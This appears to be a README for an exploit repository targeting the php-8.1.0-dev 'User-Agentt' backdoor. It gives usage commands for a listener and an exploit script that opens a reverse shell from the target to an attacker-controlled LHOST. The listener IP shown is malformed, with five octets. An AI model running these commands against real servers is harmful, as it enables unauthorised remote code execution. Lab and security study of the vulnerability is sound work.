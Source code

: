 # php-8.1.0-dev-backdoor-rce
A script that exploits the User-Agentt HTTP header to provide remote code execution on a webserver running php-8.1.0-dev.

For more information about this vulnerability, please see Flast101's post: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/


### Example usage

listener.py (if you're using a machine that doesn't have netcat / socat / pwncat etc...)

```shell

python3 ./listener.py -l 10.69.42.1.15 -p 1337

```


exploit.py

```shell

python3 ./exploit.py --URL http://10.129.44.132 --RPORT 80 --LHOST 10.69.42.1.15 --LPORT 1337

```
